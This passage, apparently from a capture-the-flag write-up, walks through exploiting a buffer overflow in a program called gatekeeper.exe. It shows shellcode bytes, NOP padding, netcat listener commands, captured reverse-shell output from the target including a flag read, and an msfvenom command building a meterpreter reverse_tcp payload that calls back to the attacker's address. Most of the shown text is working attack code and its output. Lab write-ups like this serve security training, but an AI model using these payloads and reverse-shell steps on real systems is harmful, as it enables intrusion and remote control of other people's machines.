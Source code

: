     buf += b"\x5f\xcb\xe4\xb4\x19\xa5\x46\x6e\xf0\x1a\x01\xe6"
    buf += b"\x85\x50\x92\x70\x8a\xbc\x64\x9c\x3b\x69\x31\xa3"
    buf += b"\xf4\xfd\xb5\xdc\xe8\x9d\x3a\x37\xa9\xbe\xd8\x9d"
    buf += b"\xc4\x56\x45\x74\x65\x3b\x76\xa3\xaa\x42\xf5\x41"
    buf += b"\x53\xb1\xe5\x20\x56\xfd\xa1\xd9\x2a\x6e\x44\xdd"
    buf += b"\x99\x8f\x4d"

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

    padding = "\x90" * 16

Final Buffer (Shell Exploit)
============================

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell. Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn’t change it).

    nc - lvnp 4444
    listening on [any] 4444 ...

Restart gatekeeper.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

    sudo nc -lvnp 4444      
    [sudo] password for sloppy: 
    listening on [any] 4444 ...
    connect to [10.18.91.23] from (UNKNOWN) [10.10.134.192] 49173
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\gatekeeper\Desktop>

Now that we have POC, change the IP in the exploit to the target and set up listener again. run the exploit again.

    sudo nc -lvnp 4444      
    [sudo] password for sloppy: 
    listening on [any] 4444 ...
    connect to [10.18.91.23] from (UNKNOWN) [10.10.134.192] 49173
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\natbat\Desktop>more user.txt.txt
    more user.txt.txt
    {First Flag found here}

Privilege Escalation
====================

Lets upgrade our shell to a meterpreter session and use some post exploits in msfconsole. Lets make a new payload with msfvenom for the exploit.

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.91.23 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x80" -f py
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 402 (iteration=0)
    x86/shikata_ga_nai chosen with final size 402
    Payload size: 402 bytes
    Final size of py file: 1993 bytes
